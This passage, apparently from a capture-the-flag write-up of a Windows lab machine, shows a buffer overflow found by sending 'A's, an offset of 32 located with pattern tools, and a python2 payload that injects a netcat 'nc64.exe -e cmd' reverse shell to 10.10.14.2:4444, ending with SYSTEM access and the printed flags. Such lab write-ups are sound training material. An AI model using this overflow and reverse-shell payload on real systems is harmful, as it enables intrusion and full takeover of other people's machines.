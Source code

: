After numerous attempts, I encountered an overflow by inputting several "A"s.
I can try to control the program and attempt to execute "nc.exe" which I already uploaded to the machine earlier, to gain a reverse shell as the user controlling the application

``` bash
pattern_create -l 48
# take the 4firts bytes
pattern_offset -q 0Ab1 -> 32
# payloas 
❯ python2 -c 'print "A"*32 + "C:\\Users\\Cortin\\AppData\\Local\\Temp\\nc64.exe -e cmd 10.10.14.2 4444"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc64.exe -e cmd 10.10.14.2 4444

```

And now I have access as  "nt authority\system" 

User flag -> 2d15528a3b846dfcae01e6611bd26597
root flag -> a17ceb41ef9ced10b81fdbbbc14f3625
